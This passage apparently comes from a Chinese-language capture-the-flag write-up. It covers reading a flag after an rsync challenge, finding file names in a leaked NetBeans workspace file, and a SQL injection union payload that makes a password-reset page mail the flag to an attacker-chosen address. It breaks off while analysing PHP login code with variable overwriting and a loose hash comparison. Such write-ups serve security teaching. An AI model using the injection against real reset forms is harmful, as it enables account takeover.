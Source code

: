 ```bash
total size is 44  speedup is 0.73
[root@test ~]# cat flag.txt
<?php
$flag = "flag{rsync_i5_very_useful!}";
```

## findpwd
题目提示了开发者用的ide是netbean，查看ide工作空间的文件
```
http://118.178.18.181:20880/nbproject/private/private.xml
```

```xml
<project-private xmlns="http://www.netbeans.org/ns/project-private/1">
<editor-bookmarks xmlns="http://www.netbeans.org/ns/editor-bookmarks/2" lastBookmarkId="0"/>
<open-files xmlns="http://www.netbeans.org/ns/projectui-open-files/2">
<group>
<file>file:/var/www/html/fuckbean/index.php</file>
<file>
file:/var/www/html/fuckbean/f1ndmyp4ssw0rdnineverno.php
</file>
<file>file:/var/www/html/fuckbean/1.sql</file>
</group>
</open-files>
</project-private>
```
可以看到`1.sql`和`f1ndmyp4ssw0rdnineverno.php`两个文件
f1ndmyp4ssw0rdnineverno.php是个输入邮箱找回密码的页面
下载`1.sql`，这里就可以猜测可能是注入
```sql
drop database if exists fuckbean;
create database fuckbean;
use fuckbean;
create table users(
id int(5),
username varchar(20),
password varchar(32),
mail    varchar(50)
);
insert into users values(1,"admin","aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa","admin@admin.com");
grant all privileges on fuckbean.* to fuckbean@localhost identified by 'fuckbean';
```
构造
```
a'union select 1,2,3,0xxxxxxx-- a@qq.com
```
其中`0xxxxxxx`是你自己的邮箱的hex，提交后收到flag邮件

## babylogin
题目给了源代码，关键语句如下
```php
...

foreach (array('_GET','_POST','_COOKIE') as $key) {
    foreach ($$key as $key2 => $value) {
        $_GPC[$key2]=$value;
    }
...
...

$session = json_decode(base64_decode($_GPC['__session']), true);
    if (is_array($session)){
        $user = find_user_by_uid($session['uid']);
        if(is_array($user) && $session['hash'] == $user['password']){
```